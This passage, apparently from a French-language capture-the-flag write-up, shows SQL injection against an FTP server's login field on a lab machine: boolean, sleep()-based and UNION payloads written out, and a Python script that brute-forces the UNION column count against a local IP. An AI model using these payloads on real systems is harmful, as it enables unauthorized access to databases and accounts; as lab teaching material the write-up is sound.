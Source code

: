 ```plain
root'/**/or/**/'1'='1
```

on voit alors que tout se passe normalement (message indiquant que le password est invalide mais la connexion reste ouverte).  

En remplaçant le '1' par un mot clé MySQL comme USER() ou VERSION() pas plus de crash ce qui confirme que l'on a bien affaire à une base MySQL.  

Si on indique la colonne 'passwd' pas de fermeture non plus. On pourrait donc assez facilement brute-forcer le nom des colonnes.
Il est aussi possible de provoquer des timeouts en injectant un sleep() avec le nom d'utilisateur suivant :

```plain
root'/**/or/**/sleep(15)='1
```

Par conséquent il doit être possible d'utiliser la fonction IF() de MySQL à notre avantage.  

Mais d'abord déterminons pourquoi nous ne pouvons pas simplement faire fermer la requête SQL. Vraisemblablement le code généré en fond s'attend à trouver un autre caractère. Que se passe-t-il si nous fermons aussi une parenthèse ?  

![Injection SQL, pas de crash](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity3.png)

Bingo ! *Login failed*, pas de déconnexion.  

Maintenant essayons de voir ce que l'on peut faire à l'aide d'une clause UNION.  

Si plusieurs enregistrements remontent, la ligne de notre union peut potentiellement prendre le dessus et on pourrait en quelque sorte tricher sur le contenu de la base.  

Il nous faut d'abord déterminer le nombre de colonnes remontées par la requête, pour cela on va faire un script Python qui teste une puis deux, puis trois et ainsi de suite, colonnes :  

```python
from ftplib import FTP
import sys

for i in range(1,10):
    login = "root')/**/union/**/select/**/" + ','.join(["1" for __ in range(i)]) + "/**/from/**/information_schema.tables;#"
    password = '1'

    ftp = FTP('192.168.1.57')
    try:
        ftp.login(login, password)
    except EOFError:
        print "Failed union with {0} columns".format(i)
        continue
    else:
        print "directory:", ftp.pwd()
        print "No crash with username '{0}'".format(login)
        ftp.quit()
        break
print "done"
```
